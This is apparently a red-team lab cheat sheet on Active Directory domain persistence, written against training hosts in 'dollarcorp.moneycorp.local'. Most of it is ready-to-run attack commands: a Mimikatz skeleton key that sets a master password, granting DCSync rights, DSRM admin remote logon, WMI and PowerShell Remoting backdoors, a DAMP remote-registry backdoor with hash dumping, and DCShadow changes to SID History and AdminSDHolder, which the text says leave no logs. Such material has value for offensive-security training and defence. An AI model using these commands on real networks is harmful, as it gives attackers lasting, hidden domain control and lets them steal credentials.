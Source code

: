 ## DSRM Backdoor
- [Sneaky Active Directory Persistence #11: Directory Service Restore Mode (DSRM) – Active Directory Security (adsecurity.org)](https://adsecurity.org/?p=1714)
- [Sneaky Active Directory Persistence #13: DSRM Persistence v2 – Active Directory Security (adsecurity.org)](https://adsecurity.org/?p=1785)
 *** 
 
 ## Forging Tickets
- Golden Ticket
- Silver Ticket

***

## Misc
- [Abusing RCBD](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)

Must be run with DA privileges.

### Mimikatz skeleton key attack

Run from DC. Enables password “mimikatz” for all users 🚩.

```plaintext
privilege::debug
misc::skeleton
```

### Grant specific user DCSync rights with PowerView

Gives a user of your choosing the rights to DCSync at any time. May evade detection in some setups.

```powershell
Add-ObjectACL -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName student355 -Rights DCSync
```

### Domain Controller DSRM admin

The DSRM admin is the local administrator account of the DC. Remote logon needs to be enabled first.

```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

Now we can login remotely using the local admin hash dumped on the DC before (with `lsadump::sam`, see ‘Dumping secrets with Mimikatz’ below). Use e.g. ‘overpass the hash’ to get a session (see ‘Mimikatz’ above).

### Modifying security descriptors for remote WMI access

Give user WMI access to a machine, using `Set-RemoteWMI.ps1` cmdlet. Can be run to persist access to e.g. DCs.

```powershell
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2'
```

For execution, see ‘Command execution with WMI’ above.

### Modifying security descriptors for PowerShell Remoting access

Give user PowerShell Remoting access to a machine, using `Set-RemotePSRemoting.ps1` cmdlet. Can be run to persist access to e.g. DCs.

```powershell
Set-RemotePSRemoting -UserName student1 -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

For execution, see ‘Command execution with PowerShell Remoting’ above.

### Modifying DC registry security descriptors for remote hash retrieval using DAMP

Using [DAMP toolkit](https://github.com/HarmJ0y/DAMP), we can backdoor the DC registry to give us access on the `SAM`, `SYSTEM`, and `SECURITY` registry hives. This allows us to remotely dump DC secrets (hashes).

We add the backdoor using the `Add-RemoteRegBackdoor.ps1` cmdlet from DAMP.

```powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee Student355
```

Dump secrets remotely using the `RemoteHashRetrieval.ps1` cmdlet from DAMP (run as ‘Trustee’ user).

```powershell
# Get machine account hash for silver ticket attack
Get-RemoteMachineAccountHash -ComputerName dcorp-dc

# Get local account hashes
Get-RemoteLocalAccountHash -ComputerName dcorp-dc

# Get cached credentials (if any)
Get-RemoteCachedCredential -ComputerName dcorp-dc
```

### DCShadow

DCShadow is an attack that masks certain actions by temporarily imitating a Domain Controller. If you have Domain Admin or Enterprise Admin privileges in a root domain, it can be used for forest-level persistence.

Optionally, as Domain Admin, give a chosen user the privileges required for the DCShadow attack (uses `Set-DCShadowPermissions.ps1` cmdlet).

```powershell
Set-DCShadowPermissions -FakeDC mcorp-student35 -SamAccountName root355user -Username student355 -Verbose
```

Then, from any machine, use Mimikatz to stage the DCShadow attack.

```plaintext
# Set SPN for user
lsadump::dcshadow /object:root355user /attribute:servicePrincipalName /value:"SuperHacker/ServicePrincipalThingey"

# Set SID History for user (effectively granting them Enterprise Admin rights)
lsadump::dcshadow /object:root355user /attribute:SIDHistory /value:S-1-5-21-280534878-1496970234-700767426-519

# Set Full Control permissions on AdminSDHolder container for user
## Requires retrieval of current ACL:
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl

## Then get target user SID:
Get-NetUser -UserName student355 | select objectsid

## Finally, add full control primitive (A;;CCDCLCSWRPWPLOCRRCWDWO;;;[SID]) for user
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:O:DAG:DAD:PAI(A;;LCRPLORC;;;AU)[...currentACL...](A;;CCDCLCSWRPWPLOCRRCWDWO;;;S-1-5-21-1874506631-3219952063-538504511-45109)
```

Finally, from either a DA session OR a session as the user provided with the DCShadowPermissions before, run the DCShadow attack. Actions staged previously will be performed without leaving logs 😈

```plaintext
lsadump::dcshadow /push
```
